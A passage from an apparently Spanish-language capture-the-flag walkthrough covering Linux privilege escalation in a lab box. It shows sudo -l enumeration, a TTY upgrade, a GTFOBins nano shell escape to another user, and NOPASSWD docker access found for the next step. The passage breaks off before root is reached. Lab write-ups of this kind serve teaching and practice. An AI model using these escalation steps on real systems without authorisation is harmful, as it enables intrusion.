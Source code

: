 Genial! 
Toca escalada.

Empezamos con lo típico: sudo -l

```
www-data@b26f6749e4a2:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on b26f6749e4a2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on b26f6749e4a2:
    (firsthacking) NOPASSWD: /usr/bin/nano
www-data@b26f6749e4a2:/$ 
```
Ok. vemos que podemos ejecutar como el usuario firsthacking el comando /usr/bin/nano.

Vamos a GTFOBins y vemos que podemos conseguir una terminal.
Primero vamos a mejorar nuestra terminal
```
script /dev/null -c bash
Ctrl+Z
stty raw -echo ; fg 
Enter
reset
Enter.
xterm
export TERM=xterm SHELL=bash
stty rows 40 columns 157
```

Ahora seguimos los pasos de GTFOBins

```
sudo -u firsthacking /usr/bin/nano 
Presiona Ctrl+R 
Presiona Ctrl+X  
Escribe: reset; bash 1>&0 2>&0 
Presiona Enter
```


Ya tenemos al usuario firsthacking!!

```
$ ls
firsthacking  ubuntu
$ whoami
firsthacking
```

Vamos a por root!

Probamos de nuevo sudo -l

```
$ sudo -l
Matching Defaults entries for firsthacking on b26f6749e4a2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User firsthacking may run the following commands on b26f6749e4a2:
    (ALL) NOPASSWD: /usr/bin/docker
```
Podemos ejecutar docker sin password!
